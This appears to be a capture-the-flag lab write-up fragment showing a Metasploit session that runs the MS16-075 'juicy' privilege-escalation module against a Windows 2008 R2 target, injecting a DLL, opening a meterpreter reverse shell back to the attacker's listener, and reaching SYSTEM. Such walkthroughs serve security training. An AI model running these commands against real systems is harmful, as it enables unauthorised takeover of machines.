 ```bash
msf6 exploit(windows/local/ms16_075_reflection) > use exploit/windows/local/ms16_075_reflection_juicy
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/ms16_075_reflection_juicy) > options

Module options (exploit/windows/local/ms16_075_reflection_juicy):

   Name     Current Setting      Required  Description
   ----     ---------------      --------  -----------
   CLSID    {4991d34b-80a1-4291  yes       Set CLSID value of the DCOM to
            -83b6-3328366b9097}             trigger
   SESSION  1                    yes       The session to run this module
                                            on


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  none             yes       Exit technique (Accepted: '', seh
                                        , thread, process, none)
   LHOST     10.10.14.15      yes       The listen address (an interface
                                        may be specified)
   LPORT     9002             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(windows/local/ms16_075_reflection_juicy) > run

[*] Started reverse TCP handler on 10.10.14.15:9002 
[+] Target appears to be vulnerable (Windows 2008 R2)
[*] Launching notepad to host the exploit...
[+] Process 1488 launched.
[*] Reflectively injecting the exploit DLL into 1488...
[*] Injecting exploit into 1488...
[*] Exploit injected. Injecting exploit configuration into 1488...
[*] Configuration injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (176198 bytes) to 10.10.10.93
[*] Meterpreter session 2 opened (10.10.14.15:9002 -> 10.10.10.93:49169) at 2025-01-12 19:42:43 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
``` 

I got `SYSTEM`'s shell!